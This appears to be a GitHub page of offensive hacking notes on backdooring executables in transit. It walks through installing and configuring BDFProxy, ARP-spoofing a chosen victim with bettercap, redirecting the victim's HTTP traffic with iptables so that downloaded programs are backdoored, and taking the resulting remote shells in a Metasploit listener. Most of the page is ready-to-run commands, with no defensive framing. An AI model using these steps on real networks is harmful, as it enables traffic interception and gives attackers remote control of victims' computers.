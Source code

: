 # Backdoor exe on the fly

The method of the delivery method is to backdoor files that is downloading from a source to victim's machine. If hacker become man-in-the-middle, the victim downloads executable from a http site, hacker backdoors it. As target execute, the hacker got a shell

                 backdoored exe               original exe
     Victim <-------------------- Hacker <--------------------  Source

     Bkd client -------------> running server
	                 connect

Run:

```bash
cd /opt
git clone https://github.com/secretsquirrel/BDFProxy.git
cd BDFProxy
./install.sh
apt -y install python-pip python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev zlib1g-dev
pip install capstone mitmproxy==0.13
```

Configure BDFProxy:
```bash
cd /opt/BDFProxy
vim bdfproxy.cfg
```

Change the following to: 

    
    proxyMode = transparent

Find config of each os:

    Host = <ip>

Execute bdfproxy.py

```bash
python bdf_proxy.py

or

./bdf_proxy.py
```


Performing MITM attack:

    bettercap -iface <interface> -caplet <yourscript>

    net.probe                                    # probing net requests
    net.show                                     # show every host on LAN
    set arp.spoof.targets <target ip>            # Setting the victim
    set arp.spoof.fullduplex true                # Setting to spoof on two sides
    arp.spoof on                                 # enabling spoofing

Redirect received port to bdf_proxy.py:

    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

Running the listener:

    msfconsole --resource /opt/BDFproxy/bdfproxy_msf_resource.rc

    sessions -l            # list all active sessions
    sessions -i <id>       # Interact with a session with <id>

    sysinfo                # check system information
    help                   # show list of commands
